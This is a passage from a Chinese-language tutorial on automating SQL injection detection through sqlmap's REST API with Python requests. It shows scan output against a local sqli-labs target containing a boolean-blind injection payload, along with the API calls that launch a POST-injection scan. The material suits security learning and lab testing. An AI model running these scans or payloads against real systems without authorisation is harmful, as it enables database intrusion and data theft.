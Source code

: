 ```py
{'data': [{'status': 1, 'type': 0, 'value': {'url': 'http://192.168.1.104:80/sql-labs/Less-2/', 'query': 'id=1', 'data': None}}, {'status': 1, 'type': 1, 'value': [{'dbms': 'MySQL', 'suffix': '', 'clause': [1, 8, 9], 'notes': [], 'ptype': 1, 'dbms_version': ['>= 5.0'], 'prefix': '', 'place': 'GET', 'data': {'1': {'comment': '', 'matchRatio': 0.957, 'title': 'AND boolean-based blind - WHERE or HAVING clause', 'trueCode': 200, 'templatePayload': None, 'vector': 'AND [INFERENCE]', 'falseCode': 200, 'where': 1, 'payload': 'id=1 AND 8693=8693'}..., 'success': True, 'error': []}
```

可能您会被最后返回的结果好奇，ptype、suffix、clause等等都是什么意思呢？ 下面我给出部分字段的含义：

![](/assets/sqlmap-23.png)

#### 检测 POST注入、COOKIE、UA等注入 {#postcookieua}

检测 POST 注入和检测 GET 注入类似，但是还是有一定区别的，与 GET 注入检测区别如下，流程上是一样的，不同的是开启扫描任务的时候，多提交一个 data 字段。

```py
requests.post('http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/start', data=json.dumps({'url':'http://192.168.1.104/sql/sql/post.php','data':'keyword=1'}), headers={'Content-Type':'application/json'})
```

下面是一次完整的 POST 注入检测过程

![](/assets/sqlmap-24.png)具体输入输出代码如下：

```py
>>> r = requests.get("http://127.0.0.1:8775/task/new")
>>> r.json()
{'taskid': 'cb9c4b4e4f1996b5', 'success': True}
>>> r = requests.post('http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/start', data=json.dumps({'url':'http://192.168.1.104/sql/sql/post.php','data':'keyword=1'}), headers={'Content-Type':'application/json'})
>>> r.json()
{'engineid': 9682, 'success': True}
>>> r = requests.get("http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/status")
>>> r.json()
{'status': 'terminated', 'returncode': 0, 'success': True}
>>> r = requests.get("http://127.0.0.1:8775/scan/cb9c4b4e4f1996b5/data")
>>> r.json()
```